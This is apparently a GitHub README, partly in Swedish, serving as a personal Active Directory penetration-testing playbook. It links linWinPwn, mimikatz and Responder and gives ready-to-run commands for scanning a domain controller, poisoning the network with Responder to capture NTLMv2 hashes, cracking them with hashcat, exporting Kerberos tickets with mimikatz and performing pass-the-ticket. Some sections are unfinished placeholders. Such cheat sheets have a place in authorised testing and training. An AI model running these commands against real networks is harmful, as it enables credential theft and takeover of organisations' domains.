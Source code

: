 # Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```

## Zero Logon
* in the making *
## Responder
### Veva igång responder
```bash
responder -I eth0 -v
```
### Cracka NTLMv2 hashar
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <lösenlista.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
## SMB VEV
* in the making *
## Nmap
* in the making *
